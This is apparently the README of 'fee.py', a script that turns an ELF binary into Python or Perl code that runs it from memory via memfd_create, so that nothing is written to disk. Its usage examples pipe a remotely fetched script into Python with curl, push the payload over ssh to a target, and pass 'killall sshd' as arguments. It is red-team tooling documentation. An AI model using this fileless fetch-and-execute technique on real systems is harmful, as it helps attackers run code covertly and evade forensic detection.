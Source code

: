 ## Execute ELF files on a machine without dropping an ELF

[![Code style: black](https://img.shields.io/badge/code%20style-black-000000.svg)](https://github.com/psf/black)

### Description

This Python script generates interpreted code which creates the supplied ELF as a file in memory and executes it (without tmpfs). This makes it possible to execute binaries without leaving traces on the disk.

The technique used for this is explained [here](https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html).


### Target requirements

 * kernel: 3.17 (for `memfd_create` support)
 * An interpreter. Any of these:
   * Python 2
   * Python 3
   * Perl

### Usage

Basic usage: supply the path to the binary you wish to drop:

```console
$ ./fee.py /path/to/binary > output.py
```

You can then pipe this into Python on the target:

```console
$ curl my.example.site/output.py | python
```

Alternatively, you may generate Perl code instead with the `--lang` flag (`-l`) (requires entering the target architecture manually):
```console
$ ./fee.py /path/to/binary -l pl -t amd64 | perl
```

If you want to pipe over ssh, use the `--with-command` flag (`-c`) to wrap the output in `python -c` (or `perl -e` accordingly):

```console
$ ./fee.py -c /path/to/binary | ssh user@target
``` 

When piping over ssh, you sometimes want to wrap the long line which holds the base64-encoded version of the binary, as some shells do not like super long input strings. You can accomplish this with the `--wrap` flag (`-w`):
```
$ ./fee.py -c /path/to/binary -w 64 | ssh user@target
```

If you want to customise the arguments, use the `--argv` flag (`-a`):

```console
$ ./fee.py -a "killall sshd" ./busybox > output.py
```

__NB!__ By default, the script uses libc to resolve the right syscall number for `memfd_create` on the target in order to be as platform-agnostic as possible. If this fails (old or unsupported libc) or you're generating Perl code, you can use the `--target-architecture` (`-t`) flag to explicitly generate a syscall number.
For more exotic platforms, you should specify the syscall number manually. You need to search for `memfd_create` in your target's architecture's syscall table. This is located in various places in the Linux kernel sources. Just Googling `[architecture] syscall table` is perhaps the easiest. You can then specify the syscall number using the `--syscall` flag (`-s`).

Full help text:
```
usage: fee.py [-h] [-t ARCH | -s NUM] [-a ARGV] [-l LANG] [-c] [-p PATH] [-w CHARS] [-z LEVEL]
              path

Print code to stdout to execute an ELF without dropping files.

positional arguments:
  path                  path to the ELF file

optional arguments:
  -h, --help            show this help message and exit
  -t ARCH, --target-architecture ARCH
                        target platform for resolving memfd_create (default: resolve symbol via
                        libc)
  -s NUM, --syscall NUM
                        syscall number for memfd_create for the target platform
  -a ARGV, --argv ARGV  space-separated arguments (including argv[0]) supplied to execle (default:
                        path to file as argv[0])
  -l LANG, --language LANG
                        language for the generated code (default: python)
  -c, --with-command    wrap the generated code in a call to an interpreter, for piping directly
                        into ssh
  -p PATH, --interpreter-path PATH
                        path to interpreter on target if '-c' is used, otherwise a sane default is
                        used
  -w CHARS, --wrap CHARS
                        when base64-encoding the elf, how many characters to wrap to a newline
                        (default: 0)
  -z LEVEL, --compression-level LEVEL
                        zlib compression level, 0-9 (default: 9)
```
